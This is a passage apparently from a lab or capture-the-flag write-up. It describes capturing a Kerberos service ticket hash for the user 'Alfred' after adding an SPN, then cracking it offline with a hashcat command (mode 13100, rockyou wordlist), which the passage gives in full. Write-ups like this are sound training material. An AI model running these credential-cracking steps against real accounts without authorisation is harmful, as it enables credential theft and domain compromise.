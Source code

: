 The tool added an SPN and printed the captured TGS hash for `Alfred` (saved to alfred.tgs):

![Nmap Scan](picture13.png)

I used hashcat to crack the captured Kerberos ticket hash (mode 13100) with a common wordlist:

```bash
hashcat -m 13100 alfred.tgs /usr/share/wordlists/rockyou.txt --status --status-timer=10 --outfile=alfred_cracked.txt --outfile-format=2
```

![Nmap Scan](picture15.png)
